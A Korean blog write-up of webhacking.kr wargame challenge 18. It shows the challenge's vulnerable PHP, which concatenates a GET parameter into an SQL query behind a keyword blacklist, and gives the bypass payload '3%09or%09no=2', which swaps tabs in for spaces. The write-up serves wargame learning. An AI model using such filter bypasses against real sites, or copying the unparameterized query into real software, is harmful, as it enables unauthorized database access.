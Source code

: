 ```yaml
---
title: "[webhacking.kr] 18번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "18번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 18번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
   ![image](https://user-images.githubusercontent.com/33647663/150756775-46b3777f-066c-4b54-8730-6fa8103c0cc9.png)

## 소스 코드

  ```php
  <?php
  if($_GET['no']){
    $db = dbconnect();
    if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

    if($result['id']=="guest") echo "hi guest";
    if($result['id']=="admin"){
      solve(18);
      echo "hi admin!";
    }
  }
  ?>
  ```

## 문제 분석
  php 코드에 따라 no = 1을 입력하면 다음과 같이 ```hi guest``` 가 출력됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/150757046-fc9d3ca6-9f9c-4a72-ac6c-99bf02d8b1ed.png)

  다음 sql문을 우회해서 no=2인 admin 열이 나올 수 있도록 해야 합니다.

  ```sql
  select id from chall18 where id='guest' and no=$_GET[no]
  ```

  우선 필터링 된 문자들은 다음과 같습니다.

  | 1 | 2| 3| 4| 5 | 6 | 7 | 8 | 9 | 
  |:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|:---:|
  |**%20** | **/** | **(** |  **)** | **\|** | **&** | **select** | **from** | **0x**|

   
   가장 기본적으로 떠오르는 우회 법은 ```3 or no = 2```입니다. 이중 필터링에 걸리는 부분은 **공백** 밖에 없으므로 %20 -> %09로 바꿔서 입력을 해보면 다음과 같습니다.

   ```3%09or%09no=2```

   클리어
   
   ![image](https://user-images.githubusercontent.com/33647663/150758265-fbc5dcd7-645e-42e2-a679-d80046e879a8.png)


  



 